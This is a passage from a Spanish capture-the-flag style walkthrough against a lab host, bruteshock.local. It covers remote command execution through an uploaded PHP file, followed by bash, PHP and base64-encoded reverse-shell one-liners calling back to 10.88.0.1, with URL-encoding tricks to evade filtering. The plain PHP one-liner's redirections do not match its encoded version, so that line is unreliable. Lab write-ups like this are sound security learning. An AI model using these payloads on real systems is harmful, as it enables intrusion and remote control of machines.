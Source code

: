 En nuestro servidor que iniciamos con `python` deberíamos ver un `GET` a nuestro archivo `rce.php`

![[Pasted image 20241105231215.png]]


## Remote Code Execution

Ahora mediante la web accedemos al archivo `rce.php`, podemos hacerlo o bien desde la web o mediante `curl`

~~~ bash
curl -X GET http://bruteshock.local/pruebasUltraSecretas/exec.php\?cmd=id
~~~

![[Pasted image 20241105231441.png]]

![[Pasted image 20241105131749.png]]

## Reverse Shell

Podemos intentar enviarnos una `shell` mediante este parámetro, para ello modificaremos el siguiente payload

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~

![[Pasted image 20241105232028.png]]

Nota que cambié el caracter `&` por `%26` para que pueda ejecutarse correctamente en el servidor

![[Pasted image 20241105231953.png]]

Si entramos de esta forma al poco tiempo de establecer la `shell`, nos concluye la conexión, esto puede ser porque el servidor está bloqueando ciertos tipos de conexiones

Usaremos una `reverse shell` con `php` para no depender de un TTY, el comando sería el siguiente

~~~ bash
php -r '$sock=fsockopen("10.88.0.1",4444);exec("/bin/bash -i <&2 >&3 2>&4");'
~~~

Pero tampoco podremos ejecutarlo directamente, es por eso que una opción sería usar `base64` para primero decodificar la `shell` y luego interpretarla en el servidor

~~~ bash
echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA+JjMgMj4mMyIpOyc=" | base64 -d | bash
~~~

**Hagamos unas pruebas antes de establecer la `shell`, primero necesitamos entender que debemos modificar la URL para que nuestra explotación pueda acontecerse**

- Nota que en medio de la cadena en `base64` que hay un caracter (`+`) que limita nuestra  ejecución, es por eso que **debemos reemplazarlo** con `%2B`, que es su traducción en `Url Encoding`

**Ejecutaremos el comando sin aplicar `| bash` para ver el contenido de la cadena que se decodifica**
